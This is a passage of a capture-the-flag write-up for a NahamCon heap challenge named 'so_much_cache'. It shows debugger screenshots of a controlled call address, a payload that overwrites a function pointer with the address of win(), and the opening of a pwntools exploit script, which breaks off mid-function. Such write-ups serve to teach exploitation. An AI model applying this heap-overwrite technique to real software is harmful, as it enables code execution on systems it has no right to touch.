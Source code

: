
 Let's see how our allocated heap chunks look with the `vis_heap_chunks` command.

 
![Screenshot from 2024-05-31 19-52-01](https://github.com/Parshva87/CTF-Writeup/assets/55111077/c7a884c9-7df5-4570-a0e7-51d3f79e3974)


In the above screenshot we can see that our newly allocated heap chunk has our previuos entered data.


`3. Now let's Jump!` 


Use `c` to continue, then press `Enter` to print the menu, and select `5`. Then, enter `1` to jump to location 1.


![Screenshot from 2024-05-31 20-06-03](https://github.com/Parshva87/CTF-Writeup/assets/55111077/66ea958a-0add-4e80-9ef5-da5a3ef2140b)


In the above screenshot, we can see that when we jump to location 1, we get the `Segmentation fault` error. In the `DISASM` section, we can see that the program is trying to call the address `0x6a6a6a6a69696969`, which does not exist. This error occurs because the address `0x6a6a6a6a69696969` that the program is trying to call is actually from our entered data `iiiijjjj`.


Also, previously when we choose the option `4` to set the jump and looked at the heap chunks data, the first 8-byte data was `0x6a6a6a6a69696969 (iiiijjjj) ` 


![Screenshot from 2024-05-31 20-18-37](https://github.com/Parshva87/CTF-Writeup/assets/55111077/94f3878b-a86f-4bcc-af56-d1b8cbd181d1)


So, if we replace the `iiiijjjj (0x6a6a6a6a69696969)` with the address of the `win()` function and then jump to that location, the program will call the `win()` function.


`payload = b'aaaabbbbccccddddeeeeffffgggghhhh' + win()`


Let's write the pwntools script to automate our exploit. 


# Final exploit: -


```
from pwn import *

binary = 'so_much_cache'
elf = context.binary = ELF(binary)

def start():
    if args.GDB:
        return gdb.debug(elf.path)
    if args.REMOTE:
        return remote("challenge.nahamcon.com", 30848)
    else:
        return process(elf.path)

def allocate(size,data):
   p.recvuntil(b'[1-5] :')
   p.sendline(b'1')
   p.recvuntil(b'size :')
   p.sendline(size)
   p.recvuntil(b'data :')
   p.sendline(data)

def setjump():
   p.recvuntil(b'[1-5] :')
   p.sendline(b'4')
```